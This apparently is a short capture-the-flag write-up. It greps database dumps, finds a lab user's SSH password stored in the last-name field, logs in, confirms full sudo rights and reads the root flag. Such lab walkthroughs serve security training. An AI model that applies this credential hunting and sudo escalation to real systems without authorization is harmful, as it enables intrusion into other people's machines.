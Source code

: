 ```python
$ grep -ri james 2020-08-13
2020-08-13/sakila/sakila-mv-data.sql:(84,'JAMES','PITT','2006-02-15 04:34:33'),
2020-08-13/sakila/sakila-mv-data.sql:(71,1,'KATHY','JAMES','KATHY.JAMES@sakilacustomer.org',75,1,'2006-02-14 22:04:36','2006-02-15 04:57:20'),
2020-08-13/sakila/sakila-mv-data.sql:(299,2,'JAMES','GANNON','JAMES.GANNON@sakilacustomer.org',304,1,'2006-02-14 22:04:37','2006-02-15 04:57:20'),
2020-08-13/load_employees.dump:(499996,'1953-03-07','James','vuimaxcullings','M','1990-09-27'),
```
The SSH password of James is written instead of his lastname.

    SSH as james and change the user to root?

James has root permission through sudo:

```python
james@james:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on james:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on james:
    (ALL : ALL) ALL
```
Grab the flag:

```python
james@james:~$ sudo cat /root/root.txt
Flag{edited}

NOW YOU ARE LINUX STRONGER!!!
```
